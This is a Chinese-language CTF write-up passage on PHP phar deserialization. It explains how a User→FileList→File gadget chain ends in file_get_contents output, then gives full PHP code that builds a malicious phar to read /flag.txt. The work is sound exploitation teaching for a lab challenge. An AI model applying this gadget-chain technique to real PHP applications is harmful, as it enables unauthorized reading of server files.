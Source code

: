 ```php
            $table .= '<td class="text-center">' . htmlentities($value) . '</td>';
        }
        $table .= '<td class="text-center" filename="' . htmlentities($filename) . '"><a href="#" class="download">下载</a> / <a href="#" class="delete">删除</a></td>';
        $table .= '</tr>';
    }
    echo $table;
}
```

这里的 `$results` 存储着每一个 File 对象调用 `$func()` 方法返回的结果

而且 `__destruct` 方法会将 `$results` 的结果输出

所以我们可以通过 User 中的 `$this->db->close()` 触发 FileList 类的 `__call`, 然后继续对每一个 File 调用 `close`, 最后在析构的时候将 `file_get_contents` 返回的结果输出

利用链如下

```php
<?php

class User{
    public $db;
}

class FileList {
    private $files;
    private $results;
    private $funcs;

    function __construct($files, $results, $funcs){
        $this->files = $files;
        $this->results = $results;
        $this->funcs = $funcs;
    }
}

class File{
    public $filename;
}


$c = new File();
$c->filename = '/flag.txt';

$b = new FileList(array($c),array('flag.txt'=>array()),array());

$a = new User();
$a->db = $b;

$phar =new Phar("phar.phar"); 
$phar->startBuffering();
$phar->setStub("<?php XXX __HALT_COMPILER(); ?>");
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
?>
```
